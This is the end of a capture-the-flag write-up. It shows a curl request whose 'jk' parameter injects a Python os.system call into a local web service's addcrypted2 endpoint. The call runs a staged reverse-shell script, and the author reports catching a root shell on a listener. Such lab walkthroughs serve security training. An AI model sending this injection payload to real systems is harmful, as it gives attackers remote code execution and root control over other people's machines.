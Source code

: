 ```
After we put the file there we will send a command using the exploit we found:

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"bash%20/tmp/rev\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8888/flash/addcrypted2'


Note: that we send a bash command to execute the rev file.
```

BUT before sending we have to set up a listener locally:


![](./images/20230914124810.png)


Then lets execute the exploit command:


![](./images/20230914124859.png)

Now if we went to our listener we will find a root shell!!

![](./images/20230914124946.png)

And done machine....



Thanks for reading!

Good hunting!! :)


---

Written by: Mustafa Musallati.
[LinkedIn](https://www.linkedin.com/in/mustafa-musallati-95a159260/)
[instagram](https://www.instagram.com/accaard/)

